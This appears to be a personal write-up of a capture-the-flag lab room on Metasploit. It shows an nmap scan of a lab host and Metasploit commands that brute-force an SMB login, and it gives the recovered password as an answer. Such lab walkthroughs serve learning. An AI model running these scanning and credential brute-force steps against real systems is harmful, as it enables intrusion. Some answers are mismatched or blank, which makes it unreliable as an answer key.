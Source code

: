 # Metasploit: Exploitation 

> Evan Diamantidis | May 26th, 2022

--------------------------

<br />

# 1. Introduction

1.1: Start the AttackBox and run Metasploit using the msfconsole command to follow along this room. 
```
No answer needed
```

<br />
<br />

# 2. Scanning
	
2.1: How many ports are open on the target system?
```
nmap -sC -sV -oN nmap/initial 10.10.57.34
```
```
# Nmap 7.92 scan initiated Thu May 26 13:11:10 2022 as: nmap -sC -sV -oN nmap/initial 10.10.57.34
Nmap scan report for 10.10.57.34
Host is up (0.014s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5e
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:eb:14:56:ee:93:2a:a2:60:5d:70:23:90:32:f9:11 (RSA)
|   256 cc:ab:22:d0:00:7d:c4:06:04:1a:36:36:13:96:0d:76 (ECDSA)
|_  256 76:16:79:f5:6a:3f:3a:1c:80:7f:e0:c9:7b:b5:4a:8c (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: ACME IT SUPPORT)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: ACME IT SUPPORT)
8000/tcp open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/plain).
Service Info: Host: IP-10-10-57-34; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: IP-10-10-57-34, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-26T12:11:23
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: ip-10-10-57-34
|   NetBIOS computer name: IP-10-10-57-34\x00
|   Domain name: eu-west-1.compute.internal
|   FQDN: ip-10-10-57-34.eu-west-1.compute.internal
|_  System time: 2022-05-26T12:11:23+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 26 13:11:23 2022 -- 1 IP address (1 host up) scanned in 13.11 seconds
```
```
5
```
2.2: Using the relevant scanner, what NetBIOS name can you see?
```
ACME IT SUPPORT
```
2.3: What is running on port 8000?
```
WebFS/1.21
```
2.4: What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task. 
```
search smb_login
use 0
set RHOSTS MACHINE_IP
set SMBUser penny
set PASS_FILE .../MetasploitWordlist.txt
run
```
```
leo1234
```

<br />
<br />

# 3. The Metasploit Database

3.1: No answers needed.
```
No answer needed
```

<br />
<br />

# 4. Vulnerability Scanning

4.1: Who wrote the module that allows us to check SMTP servers for open relay?
```
set LPORT 6666
```

<br />
<br />

# 5. Exploitation

5.1: Exploit one of the critical vulnerabilities on the target VM
```
No answer needed
```
5.2: What is the content of the flag.txt file?
```

```
5.3: What is the NTLM hash of the password of the user "pirate"?
```

```

<br />
<br />



